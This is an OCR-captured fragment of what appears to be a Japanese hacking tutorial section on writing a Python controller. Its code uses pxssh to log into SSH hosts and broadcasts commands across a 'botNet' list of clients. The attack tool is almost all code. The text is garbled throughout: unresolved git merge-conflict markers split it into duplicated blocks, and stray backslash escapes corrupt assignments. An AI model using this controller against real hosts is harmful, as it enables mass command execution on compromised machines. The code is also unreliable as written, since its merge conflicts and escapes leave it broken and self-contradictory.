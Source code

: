 -----
=======
### 0x04 Pythonコントローラーの作成

\-\-\-\-\-
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
import pxssh

class Client:

    def __init__(self, host, user, password):
<<<<<<< HEAD
        self.host = host
        self.user = user
        self.password = password
        self.session = self.connect()

    def connect(self):
        try:
            sec = pxssh.pxssh()
=======
        self.host \= host
        self.user \= user
        self.password \= password
        self.session \= self.connect()

    def connect(self):
        try:
            sec \= pxssh.pxssh()
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
            sec.login(self.host, self.user, self.password)
            return sec
        except Exception, e:
            print e
<<<<<<< HEAD
            print '[-] Error Connect'
=======
            print '[\-] Error Connect'
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781

    def send_command(self, cmd):
        self.session.sendline(cmd)
        self.session.prompt()
        return self.session.before


def botnetCommand(command):
    for client in botNet:
<<<<<<< HEAD
        output = client.send_command(command)
=======
        output \= client.send_command(command)
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
        print '[*] Output from ' + client.host
        print '[+] ' + output 

